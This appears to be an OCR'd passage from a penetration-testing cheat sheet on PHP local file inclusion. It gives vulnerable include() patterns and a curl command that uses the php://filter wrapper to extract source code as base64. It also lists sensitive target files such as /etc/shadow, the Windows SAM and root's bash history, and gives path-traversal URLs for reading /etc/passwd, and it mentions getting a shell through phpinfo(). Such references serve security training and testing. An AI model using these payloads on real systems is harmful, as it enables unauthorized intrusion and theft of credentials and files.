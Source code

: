         -   Gaining a shell from phpinfo()  
            fimap + phpinfo() Exploit - If a phpinfo() file is present,
            it’s usually possible to get a shell, if you don’t know the
            location of the phpinfo file fimap can probe for it, or you
            could use a tool like OWASP DirBuster.

    -   For Local File Inclusions look for the include() function in PHP
        code.
        ```php  
        include("lang/".$_COOKIE['lang']);  
        include($_GET['page'].".php");
        ```

    -   LFI - Encode and Decode a file using base64  
        ```bash
        curl -s \
        "http://$ip/?page=php://filter/convert.base64-encode/resource=index" \
        | grep -e '\[^\\ \]\\{40,\\}' | base64 -d
        ```

    -   LFI - Download file with base 64 encoding  
        [*http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php*](about:blank)

    -   LFI Linux Files:  
        /etc/issue  
        /proc/version  
        /etc/profile  
        /etc/passwd  
        /etc/passwd  
        /etc/shadow  
        /root/.bash\_history  
        /var/log/dmessage  
        /var/mail/root  
        /var/spool/cron/crontabs/root

    -   LFI Windows Files:  
        %SYSTEMROOT%\\repair\\system  
        %SYSTEMROOT%\\repair\\SAM  
        %SYSTEMROOT%\\repair\\SAM  
        %WINDIR%\\win.ini  
        %SYSTEMDRIVE%\\boot.ini  
        %WINDIR%\\Panther\\sysprep.inf  
        %WINDIR%\\system32\\config\\AppEvent.Evt

    -   LFI OSX Files:  
        /etc/fstab  
        /etc/master.passwd  
        /etc/resolv.conf  
        /etc/sudoers  
        /etc/sysctl.conf

    -   LFI - Download passwords file  
        [*http://$ip/index.php?page=/etc/passwd*](about:blank)  
        [*http://$ip/index.php?file=../../../../etc/passwd*](about:blank)
